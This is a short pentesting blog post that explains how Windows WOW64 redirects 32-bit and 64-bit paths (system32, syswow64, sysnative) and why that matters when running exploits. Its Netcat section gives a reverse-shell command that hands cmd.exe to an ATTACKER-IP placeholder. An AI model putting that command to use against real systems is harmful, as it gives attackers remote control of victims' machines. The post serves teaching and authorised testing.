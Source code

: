 ```yaml
---
layout: post
published: false
featured: true
comments: false
title: WOW64 for Pentesters
headline: 'WOW64 '
description: What you need to know as a pen tester.
modified: '2019-03-01'
categories:
  - hacking
  - windows
tags: hacking windows wow64 powershell sysnative
---
```

## The Problem

Exploit code can be challenging to make work, it can be rough around the edges, specific to certain environments and libraries, and have syntax errors and bugs.  Some Windows-based exploits require an understanding and navigation of 32-bit application compatibility on 64-bit systems, which Windows calls "Windows on Windows" or WOW64.  This also applies to Powershell, which has both 32-bit and 64-bit versions of powershell.exe.

## The Solution

The 64-bit versions of Windows provide an emulation layer for 32-bit applications that provide access to 32-bit versions of libraries, executables, directories and registry keys so that these apps can run transparently without modification. 

This emulation layer is called WOW64 (Windows on Windows) and by understanding how it works, you can run 64-bit versions of apps from a 32-bit process and vice versa.

## Detecting 64-bit Windows

There are several ways to detect a 64-bit version of Windows, one of which is to use the _set_ command to display environment variables and look for processor architecture. Another simple way is to verify the presence of the _Program Files (x86)_ directory, which only exists on 64-bit versions of Windows.

## File Redirection for 32-Bit Apps

Windows 64-bit libraries and executables are located in the _%SYSTEMROOT%\system32_ directory.  The name may seem confusing, but was done to maintain backwards compatibility because of hard coded paths.  

Windows 32-bit libraries and executables are located in the _%SYSTEMROOT%\syswow64_ directory, but instead of having to modify paths in source code, WOW64 transparent redirects 32-bit app calls from _%SYSTEMROOT%\system32_ to _%SYSTEMROOT%\syswow64_.

> A 32-bit app can also explicitly access 64-bit versions using the _%SYSTEMROOT%\sysnative_ path (not visible in Windows Explorer).

~~~
32-bit app > 32-bit versions > \system32 ( secretly redirected to \syswow64)
32-bit app > 64-bit versions > \sysnative
~~~

> A 64-bit application can also access 32-bit versions directly using \syswow64.

~~~
64-bit app > 32-bit versions > \syswow64
~~~

## Netcat Example

When spawning a command shell from a Windows system, in many situations you might transfer nc.exe to the host to spawn a reverse shell using the _-e cmd.exe_ switch.  Because the nc.exe binary is 32-bit, it will call the 32-bit version of cmd.exe and any commands you use will be 32-bit versions, including powershell.exe. 

There's a few ways around this if needed:

Explictly spawn the 64-bit version of cmd.exe with netcat if you are certain your target is 64-bit:

~~~
nc -e %SYSTEMROOT%\sysnative\cmd.exe ATTACKER-IP ATTACKER-PORT
~~~

Spawn the 32-bit cmd.exe but explicitly call 64-bit versions of apps, using  the sysnative path.
Here's an example I had to use recently to explicitly open a 64-bit powershell prompt from a 32-bit cmd.exe shell.

~~~
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
~~~

## Further Reading

- [WOW64 Implementation](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Fwow64-implementation-details&sa=D&sntz=1&usg=AFQjCNGd8WizV4rztmURfGV_gTqyJ1J-dQ)
- [Running 32-Bit Applications](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Frunning-32-bit-applications&sa=D&sntz=1&usg=AFQjCNGZLoBioW3ekJr23FDLA8eWWBiqaA)
- [Accessing Alternate Registry Views](https://www.google.com/url?q=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fwindows%2Fwin32%2Fwinprog64%2Faccessing-an-alternate-registry-view&sa=D&sntz=1&usg=AFQjCNFqcilC4yY0Yz4u-yOfEQxsiKuwzw)


